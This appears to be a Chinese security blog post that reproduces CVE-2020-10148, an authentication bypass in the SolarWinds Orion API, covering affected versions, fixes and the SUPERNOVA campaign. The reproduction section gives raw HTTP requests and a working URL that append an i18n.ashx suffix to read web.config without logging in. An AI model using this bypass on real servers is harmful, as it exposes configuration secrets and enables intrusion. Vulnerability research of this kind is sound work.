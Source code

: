 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/I73S48-qkijQ-OPmh63ErQ)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf5BDGObeEfV5qmUR4mutlpickiaLvnZiaic57vbuCEEUCd8qQ2Rtib2BC1kicwDticUEuXavrhyAQL8owRw/640?wx_fmt=png)

SolarWinds Orion API 远程代码执行漏洞

（CVE-2020-10148）

一、漏洞概况

SolarWinds Orion API 嵌入在 Orion Core 中，被用于与所有 SolarWinds Orion Platform 产品进行接口。通过在 URI 请求的 Request.PathInfo 部分中包含特定参数，可以绕过 API 身份验证，这可能允许攻击者执行未经身份验证的 API 命令。如果攻击者将 WebResource.adx，scriptResource.adx，i18n.ashx 或 Skipi18n 的 PathInfo 参数附加到对 SolarWinds Orion 服务器的请求，SolarWinds 可能会设置 SkipAuthorization 标志，该标志可能允许处理 API 请求无需身份验证。

攻击者可利用该漏洞远程执行任意代码，有专业黑客组织利用该漏洞投递代号为'SUPERNOVA'的恶意程序。

二、漏洞影响范围

影响版本：

SolarWinds Orion 2020.2.1 HF 2 及 2019.4 HF 6 之前的版本

安全版本：

SolarWinds Orion 2019.4 HF 6（2020 年 12 月 14 日发布）

SolarWinds Orion 2020.2.1 HF 2（发布于 2020 年 12 月 15 日）

SolarWinds Orion 2019.2 SUPERNOVA 补丁（2020 年 12 月 23 日发布）

SolarWinds Orion 2018.4 SUPERNOVA 补丁（2020 年 12 月 23 日发布）

SolarWinds Orion 2018.2 SUPERNOVA 补丁（2020 年 12 月 23 日发布）

三、漏洞复现：

访问 / Orion/invalid.aspx.js 路径，截取请求头中 Location 中 data 获取

```
Location: /Orion/invalid.aspx.js.i18n.ashx?l=en-us&v=43005.14.L
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf5BDGObeEfV5qmUR4mutlps4ia5nTrmFfL4HDEVzIwTYbCJQyh1iafho8xk8m9XFTPDibfibekcq075A/640?wx_fmt=png)

```
GET /Orion/invalid.aspx.js HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/css,*/*;q=0.1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://127.0.0.1/Orion/Login.aspx?ReturnUrl=%2f
Cookie: ASP.NET_SessionId=p5yxzzumyllsfprttbkexo4u; TestCookieSupport=Supported; Orion_IsSessionExp=TRUE
```

response  

```
HTTP/1.1 404 Not Found
Cache-Control: no-cache
Pragma: no-cache
Expires: -1
Location: /Orion/invalid.aspx.js.i18n.ashx?l=en-us&v=43005.14.L
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET
X-Same-Domain: 1
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
Date: Wed, 30 Dec 2020 01:55:43 GMT
Connection: close
Content-Length: 0
```

将 .i18n.ashx?l=en-US&v=43005.14.L 携带到下个访问路径，从而绕过身份认证。这里访问的是 web.config 文件。

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf5BDGObeEfV5qmUR4mutlptLrHFxp0KrlV5BHKvbP5NIzXiaBdibqRic6vaYGaShVpiawPIAuV9IVDFg/640?wx_fmt=png)

直接访问也行：

http://127.0.0.1/web.config.i18n.ashx?l=en-us&v=43005.14.L

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf5BDGObeEfV5qmUR4mutlpne03LiaibicyoeiaupsfZbfFZyKPy642EcjWlh96ufhHjJP5Jtz0GLoTDA/640?wx_fmt=png)

参考：  

https://nosec.org/home/detail/4630.html

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)